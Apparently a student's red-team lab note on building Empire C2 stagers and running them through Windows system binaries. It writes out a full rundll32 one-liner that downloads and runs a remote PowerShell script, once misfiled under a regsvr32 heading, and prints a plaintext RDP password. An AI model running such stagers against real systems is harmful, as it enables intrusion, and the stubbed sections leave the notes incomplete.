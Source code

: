 #### Tags: [[12 - Command and Control (TA0011)]]

## Objectives

    Create different payloads for familiarity
    Test payloads from the range
    Use additional tools to enhance payloads
## Overview
This lab will focus on creating multiple payloads and then testing them in the student range. We will use various methods to gain familiarity with different techniques.

### 1. Launch [[Empire C2#Create an Empire listener]]

## [[PowerShell Stager with rundll32.exe]]

#### *Payload:* Create Powershell Stager

#### *Execution Technique:* 
```markdown
# Executing Stager with rundll32.exe
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://10.254.252.3:8000/setup.ps1');")
```

----
## [[SCT stager and execute with regsvr32.exe]]

#### *Payload:* Create a SCT stager
`xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp`

#### *Execution Technique:* 
```markdown
# Executing Stager with regsvr32.exe
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://10.254.252.3:8000/setup.ps1');")
```

---
## [[WMIC stager and execute with wmic]]

#### *Payload:* Create WMIC Stager

#### *Execution Technique:*  Executing Stager with wmic

---

## [[HTA stager and execute with mshta.exe]]

#### *Payload:* Create HTA Stager

#### *Execution Technique:* Executing Stager with mshta.exe

----
### Executing Techniques

Link to Heading
and create 2 - Payloads & Execution Tech 

#### Notes
- Create Links
- Bonus RT Sections 
	- Learn to deploy payload without RDP 
	- Learn to leverage Cobalt strike for payload creation

## Conclusion

